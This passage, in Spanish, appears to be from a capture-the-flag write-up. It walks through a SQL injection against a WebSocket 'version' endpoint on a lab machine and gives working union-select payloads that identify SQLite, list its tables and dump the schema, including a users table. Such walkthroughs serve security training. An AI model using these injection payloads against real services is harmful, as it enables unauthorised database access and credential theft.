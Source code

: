 ```null
./websocat.x86_64-unknown-linux-musl ws://10.10.11.206:5789/version < input
{"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
```

Creo un bucle para que se ejecute de forma indefinida

```null
while true; do ./websocat.x86_64-unknown-linux-musl ws://10.10.11.206:5789/version < input; sleep 1; clear; done
```

Es vulnerable a inyección SQL. Al aplicar una selección de 4 columnas aparece una respuesta, en caso contrario no

```null
{"version": "0.0.2\" union select 1,2,3,4-- -"}
```

Se emplea ```SQLite3```. Para poder dumpear datos, cambié la versión de la ```0.0.2``` a ```0.0.1```. Tiene que ser diferente para que se pueda validar la sentencia

```null
{"version": "0.0.1\" union select 1,sqlite_version(),3,4-- -"}
```

```null
./websocat.x86_64-unknown-linux-musl ws://10.10.11.206:5789/version < input
{"message": {"id": 1, "version": "3.37.2", "released_date": 3, "downloads": 4}}
```

Listo las tablas

```null
catr input
{"version": "0.0.123\" union select 1,(select group_concat(name) from sqlite_master),3,4-- -"}
```

```null
./websocat.x86_64-unknown-linux-musl ws://10.10.11.206:5789/version < input
{"message": {"id": 1, "version": "sqlite_sequence,versions,users,info,reports,answers", "released_date": 3, "downloads": 4}}
```

Extraigo las columnas para todas las tablas

```null
catr input
{"version": "0.0.123\" union select 1,(select group_concat(sql) from sqlite_master),3,4-- -"}
```

```null
./websocat.x86_64-unknown-linux-musl ws://10.10.11.206:5789/version < input
{"message": {"id": 1, "version": "CREATE TABLE sqlite_sequence(name,seq),CREATE TABLE versions (id INTEGER PRIMARY KEY AUTOINCREMENT, version TEXT, released_date DATE, downloads INTEGER),CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password DATE, role TEXT),CREATE TABLE info (id INTEGER PRIMARY KEY AUTOINCREMENT, key TEXT, value TEXT),CREATE TABLE reports (id INTEGER PRIMARY KEY AUTOINCREMENT, reporter_name TEXT, subject TEXT, description TEXT, reported_date DATE),CREATE TABLE answers (id INTEGER PRIMARY KEY AUTOINCREMENT, answered_by TEXT,  answer TEXT , answered_date DATE, status TEXT,FOREIGN KEY(id) REFERENCES reports(report_id))", "released_date": 3, "downloads": 4}}
```
